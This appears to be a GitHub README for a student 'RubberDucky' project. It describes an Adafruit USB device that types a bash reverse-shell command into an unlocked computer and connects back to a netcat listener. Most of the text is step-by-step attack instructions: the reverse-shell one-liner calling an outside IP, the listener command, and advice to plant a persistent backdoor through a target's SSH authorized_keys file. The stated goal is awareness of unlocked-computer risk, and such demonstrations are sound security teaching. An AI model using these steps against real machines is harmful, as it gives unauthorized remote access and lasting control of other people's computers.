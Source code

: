 # RubberDucky
### Summary: 
Through the use of the netcat command our group was able to create a usb device that is capable of creating a backdoor
into another users computer which is on the same network. 

### Objective: 
To demonstrate the risk inhereted when a person leaves a computer unlocked and unattended in a public setting and how that risk can be reduced by locking said computer when leaving it unatended. We were able to deomonstrate how to deal with this attack after it has been carried out, by monitoring a computer for suspicious bash processes and their usage of system resources.

### Hardware: 
Adafruit Feather 32u4 Bluefruit LE
More information can be found [here](https://www.adafruit.com/product/2829)


### On the Attacker Machine: 
```bash
  nc -lvp 1337
```

### Victim Machine: 
+ Change the ip address and port within the Arduino Sketch to the ip and port that you will be using on the host machine
```C
  // Create rsh
  Keyboard.print("bash -i >& /dev/tcp/192.101.10.120/1337 0>&1 & disown");
```
+ Flash the Adafruit device with the sketch found in veitchDuck
+ Run the attack.sh file on the host machine 
+ Plug the USB device into the target machine
+ Watch the target computer as a terminal is open, after the commmand has been entered and the terminal has closed you may remove the USB device and return the host machine
+ Congratulations you now have a rsh into another persons computer. 
+ Once here the extensions are endless, however it may be best to add an additional back door to the targets computer for rentry. There are many ways this can be done one is to add a public ssh key to the targets authorized_keys file
More on backdoors can be found [here](https://medium.com/@airman604/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)


### Notes:
This device has been tested on Linux and Mac.
The authors will not be held responsible for any blackhat hacking.
